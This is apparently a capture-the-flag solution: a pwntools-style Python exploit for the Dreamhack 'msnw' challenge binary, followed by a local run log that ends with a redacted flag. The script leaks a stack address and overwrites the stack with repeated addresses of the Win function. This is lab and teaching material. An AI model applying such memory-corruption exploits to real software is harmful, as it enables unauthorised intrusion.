 ```python
#!/usr/bin/python3
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./msnw', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*Meong+109
c
''') if not args.REMOTE else None

p = remote('host3.dreamhack.games',8269 ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================
Win = exe.sym['Win']

padding = b'A'*0x130

sa(b':',padding)
ru(padding)
leak = u64(p.recv(6)+b'\\0\\0')
input_field = leak - 0x330
slog("Leak",leak)
slog("Input field", input_field)

payload = p64(Win)*38 + p64(input_field)
slog("Payload len", len(payload))
sa(b':',payload)

interactive()

```

```bash
alter ^ Sol in ~/Dreamhack/MSNW/deploy
$ ./xpl.py
[+] Starting local process '/home/alter/Dreamhack/MSNW/deploy/msnw': pid 4075
[!] ASLR is disabled!
[+] Leak: 0x7fffffffdaf0
[+] Input field: 0x7fffffffd7c0
[+] Payload len: 0x138
[*] Switching to interactive mode
 [*] Process '/home/alter/Dreamhack/MSNW/deploy/msnw' stopped with exit code 0 (pid 4075)
DH{**flag**}

```
